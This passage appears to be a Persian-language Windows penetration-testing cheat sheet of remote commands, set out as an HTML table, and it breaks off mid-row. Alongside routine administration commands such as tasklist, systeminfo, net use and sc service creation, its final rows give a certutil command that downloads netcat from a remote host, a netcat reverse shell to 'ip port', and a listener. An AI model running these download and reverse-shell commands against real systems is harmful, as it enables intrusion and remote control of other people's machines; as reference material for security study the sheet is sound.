 ## دستورات از راه دور

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>دستور</b>
      </th>
      <th style="text-align:left"><b>توضیح</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">tasklist /S ip /v</td>
      <td style="text-align:left">فرآیند های در حال اجرا در ip</td>
    </tr>
    <tr>
      <td style="text-align:left">systeminfo /S ip /U domain\user /P Pwd</td>
      <td style="text-align:left">اطلاعات مربوط به ip</td>
    </tr>
    <tr>
      <td style="text-align:left">net share \\ ip</td>
      <td style="text-align:left">محیط اشتراکی ip</td>
    </tr>
    <tr>
      <td style="text-align:left">net use \\ ip</td>
      <td style="text-align:left">فایل سیستم ip</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>net use z: \\ ip \share password</p>
        <p>/user: DOMAIN user</p>
      </td>
      <td style="text-align:left">
        <p>Map drive, specified</p>
        <p>credentials</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">reg add \\ ip \ regkey \ value</td>
      <td style="text-align:left">اضافه نموده کلید رجیستری برای ip</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>sc \\ ip create service</p>
        <p>binpath=C:\Windows\System32\x.exe start= auto</p>
      </td>
      <td style="text-align:left">
        <p>Create a remote service</p>
        <p>(space after start=)</p>
      </td>
    </tr>
     <tr>
      <td style="text-align:left">cmd.exe /c certutil -urlcache -split -f http://ip/nc.exe c:/windows/temp/nc.exe</td>
      <td style="text-align:left">کپی فایل از ip به سیستم جاری توسط cmd.exe</td>
    </tr>
    <tr>
      <td style="text-align:left">cmd.exe /c c:/windows/temp/nc.exe ip port -e cmd.exe</td>
      <td style="text-align:left">شل reverse</td>
    </tr>
    <tr>
      <td style="text-align:left">nc.exe -lvvp port</td>